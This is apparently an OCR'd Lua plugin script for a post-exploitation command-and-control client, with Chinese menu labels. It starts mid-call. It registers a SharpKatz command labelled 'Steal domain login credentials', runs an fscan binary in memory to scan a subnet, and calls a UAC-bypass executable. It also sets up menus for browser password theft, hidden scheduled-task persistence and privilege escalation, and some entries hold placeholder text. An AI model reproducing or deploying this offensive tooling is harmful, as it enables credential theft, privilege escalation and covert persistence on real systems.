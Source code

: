 ```lua
    "Steal domain login credentials",
    "SharpKatz -h"
)
AddCommand(
    "fscan",
    "Plugins\\fscan.bin",
    "RunPE",
    "asdasd",
    "DDDDD"
)
AttackMenuExpand("asdasd","",null)
MenuStripExpand("asdasd",null,null)


local function Privileg()
    InlineAssembly("Plugins\\BypassUAC-ETV.exe", "calc")
end

local function RunPEload()
    RunPE("Plugins\\fscan.bin","-h 192.168.1.1/24")
    -- 调用C#中注册的printf方法
    Sessionlog("Message")
end

local function AddMenuItem()

    AddMenuItemA("渗透插件", null)
    AddMenuItemA("信息收集", null)
    AddMenuItemA("抓取浏览器密码", null)
    AddMenuItemA("持久化控制", null)
    AddMenuItemA("任务计划", null)
    AddMenuItemB("隐藏安装", "", SchTaskForm)
    AddMenuItemB("权限提升",null,function ()
        Sessionlog("Message")
    end)
    AddMenuItemB("4.0","",RunPEload)
    local menuStructure = {
        ["渗透插件"] = {"信息收集", "持久化控制","权限提升"},
        ["信息收集"] = {"抓取浏览器密码"},
        ["持久化控制"] = {"任务计划"},
        ["任务计划"] = {"隐藏安装"},
        ["权限提升"] = {"4.0"}
    }
    for parent, subs in pairs(menuStructure) do
        AddMenuItemsAsSubItems(parent, subs)
    end
end

AddMenuItem()

```





